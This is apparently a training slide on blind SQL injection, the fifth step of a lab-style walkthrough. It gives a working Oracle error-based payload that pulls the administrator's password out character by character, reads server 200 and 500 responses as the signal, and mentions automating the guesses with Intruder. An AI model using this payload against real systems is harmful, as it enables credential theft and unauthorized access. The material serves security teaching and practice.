

5.Determine the password:
	payload:'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and SUBSTR(password,1,1)='a')||'
		EVALUTION::If got 200/ok, then 'a'is not first character...
				if get error/500, then 'a'is 1st character....
	use intruder to know the result......